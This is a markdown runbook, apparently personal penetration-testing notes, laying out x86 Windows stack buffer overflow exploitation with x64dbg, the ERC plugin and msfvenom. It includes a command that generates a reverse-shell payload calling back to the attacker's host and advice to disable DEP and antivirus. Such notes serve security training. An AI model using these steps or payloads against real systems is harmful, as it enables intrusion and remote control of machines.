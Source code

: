 # buffer overflow x86 windows

## Step 0: Setup

- Install [x64dbg](https://github.com/x64dbg/x64dbg), the x32 version.
- Install [ERC](https://github.com/Andy53/ERC.Xdbg), also the x32 version.

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset using the value of the EIP.
```shell
ERC --pattern o 1hF0
```
or automatically using
```shell
ERC --findNRP
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 009A19E4 C:\Users\windows\Downloads\x96dbg\x32\plugins\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

- When running shellcode locally in Windows 10 VM make sure to
  - Disable _data execution protection_
  - Windows defender / antivirus

## Python

- A Python script for buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-local.py).
